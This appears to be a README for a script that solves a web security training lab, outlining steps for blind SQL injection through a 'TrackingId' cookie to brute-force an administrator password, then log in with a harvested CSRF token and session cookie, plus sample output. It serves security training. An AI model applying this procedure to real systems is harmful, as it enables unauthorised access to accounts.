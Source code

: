 # Hack Steps

1. Inject payload into 'TrackingId' cookie to determine the length of administrator's password based on time delays
2. Modify the payload to brute force the administrator's password 
3. Fetch the login page
4. Extract the csrf token and session cookie
5. Login as the administrator
6. Fetch the administrator profile

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python blind_sql_injection_with_conditional_responses.py
```

# Expected Output

```
[#] Injection point: TrackingId
1. Checking if password length = 10 
1. Checking if password length = 15
                    .........
1. Checking if password length = 20 [ Correct length: 20 ]
2. Checking if char at position 5   =  9 [ Correct password: 37z59 ]
2. Checking if char at position 12  =  i [ Correct password: 37z59ib4bm7i ]
                    ..........
2. Checking if char at position 20  =  2 [ Correct password: 37z59ib4bm7ifm6fuxo2 ]
3. Fetching login page.. OK
4. Extracting the csrf token and session cookie.. OK
5. Logging in as the administrator.. OK
6. Fetching the administrator profile.. OK
🗹 Check your browser, it should be marked now as solved
```
